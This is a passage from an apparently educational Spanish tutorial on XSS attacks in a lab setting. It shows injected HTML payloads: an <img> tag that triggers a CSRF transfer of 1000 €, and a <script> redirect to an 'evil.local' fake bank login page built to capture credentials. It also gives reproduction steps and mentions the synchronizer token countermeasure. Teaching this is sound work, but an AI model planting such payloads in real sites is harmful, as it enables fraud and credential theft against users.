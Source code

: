 ```html
Esta es una página que ha sido hackeada mediante XSS.
Al acceder, realiza una transferencia de 1000 € al atacante.
<img src='http://dominiodeguro.local/transfer.php?quantity=1000&to=juan'>
```

Para reproducir el ataque, haz login como `mario` y luego visita la página `hackeada-csrf.html`

Existen múltiples contramedidas para este tipo de ataque explicadas en la entrada de la Wikipedia como por ejemplo el patrón [Synchronizer token pattern](ttps://en.wikipedia.org/wiki/Cross-site_request_forgery#Synchronizer_token_pattern)

## Redirigir a otra web.

Otro tipo de ataque que se puede realizar mediante XSS es la redirección a una página controlada por un atacante.

```html
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, reenvía al visitante a una página controlada por un hacker
<script>document.location = 'http://evil.local/clon-de-mi-banco.html'</script>
</body>   
```

Ahora en el navegador al acceder a la página `hackeada-redirect.html`  se visita automáticamente la página [http://evil.local/clon-de-mi-banco.html](http://evil.local/clon-de-mi-banco.html)

```html
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
<p>Esta página es un clon de la página de login de mi banco. Cuando el usuario realiza un login, los datos de conexíón son capturados por el atacante.</p>
<p>Otra posibilidad es que desde esta página se instale un malware en el ordenador</p>
<p>Las posibilidades son infinitas...</p>
</body>
</html>
 
```



**Basado en** 

[https://httpd.apache.org/docs/2.4/es/mod/mod_auth_basic.html](https://httpd.apache.org/docs/2.4/es/mod/mod_auth_basic.html)

[https://es.wikipedia.org/wiki/Cookie_(inform%C3%A1tica)#Robo_de_cookies](https://es.wikipedia.org/wiki/Cookie_(inform%C3%A1tica)#Robo_de_cookies)
